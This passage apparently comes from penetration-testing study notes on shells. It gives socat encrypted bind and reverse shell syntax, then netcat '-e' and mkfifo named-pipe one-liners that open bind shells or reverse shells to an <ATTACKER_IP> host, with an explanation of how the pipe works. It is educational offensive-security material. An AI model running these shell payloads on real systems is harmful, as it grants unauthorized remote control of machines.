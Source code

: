 and the attacking machine connects to the listener using

```console
~$ socat OPENSSL:<TARGET_IP>:<TARGET_PORT>, verify=0 -
```

Since the certificate has to be used with the listener, we have to copy the `.pem` file across to the target before spawning the bind shell. 

This technique also works together with the special Linux tty shell discussed [previously](#stablised-shells). The listener syntax is 

```console
~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE=`tty`,raw,echo=0
```

and the syntax to connect to the listener is 

```console
~$ socat OPENSSL:<ATTACKER_IP>:<ATTACKER_PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Common shell payloads

In some versions of Netcat, there is a `-e` option, which allows us to execute a process upon connection. For example, if we start a listener with:
```console
~$ nc -lvnp <PORT> -e /bin/bash
```

Then, connecting to the above listener with Netcat results in a bind shell on the target.

Similarly, if we connect to a listener using
```console
~$ nc <ATTACKER_IP> <PORT> -e /bin/bash
```
would result in a reverse shell on the target.

This almost always works on Windows where a static binary is required. On Linux, we may create a listener for a bind shell using
```console
~$ mkfifo /tmp/f; nc -lnvp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

> The command first creates a [*named pipe*](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a Netcat listener and connects the **input** of the listener to the **output** of the named pipe. The **output** of the Netcat listener -- the commands we sent -- is then piped into `/bin/sh`. `2>&1` sends the *stderr* stream to *stdout* and then *stdout* is sent to the input of the named pipe via `>/tmp/f`.

We can similarly send a Netcat reverse shell:

```console
~$ mkfifo /tmp/f; nc <ATTACKER_IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

-----

### for Windows Powershell
